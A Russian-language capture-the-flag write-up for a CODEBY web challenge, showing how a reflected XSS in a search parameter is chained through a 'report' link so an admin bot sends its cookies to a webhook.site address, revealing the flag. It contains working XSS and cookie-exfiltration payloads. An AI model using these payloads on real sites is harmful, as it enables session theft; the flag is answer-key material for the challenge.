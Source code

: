 # Клиент всегда прав: Write-up #
Нас встречает ссайт с тремя ссылками на различные посты. Заметим, что иконки возле ссылок тоже кликабельные.
![](writeup/report.png)

И вот, какой url они выдают:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?publication=ilon-mask
Уже наводит на определённые крысиные мысли...

Теперь попробуем поковырять поисковую строку, не просто так же она здесь. Пробуем простейший xss:

    <script>alert(1)</script>
    
Есть контакт!
![](writeup/xss.png)

Раз уж есть xss и наивный админ, который смотрит наши репорты, можно попробовать украсть его куки. Вставим в параметр `report` ссылку с параметром `search`, в который запихнём xss.
Для принятия куки лучше использовать [webhook.site](https://webhook.site). Он генерирует ссылку, которую будем использовать в пэйлоаде. Итоговый xss:

    <script>document.location="https://webhook.site/033ff524-96a4-4482-ba69-92b7a21b289b/?c="%252bencodeURIComponent(document.cookie)</script>

Кидаем это в параметр `search` а затем получившейся ссылкой заменяем параметр `report`:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location="https://webhook.site/033ff524-96a4-4482-ba69-92b7a21b289b/?c="%252bencodeURIComponent(document.cookie)</script>

Идём смотреть куки на вебхуке и видим флаг:

`flag=CODEBY{r3fl3cted_XSS_expl0it3d}`
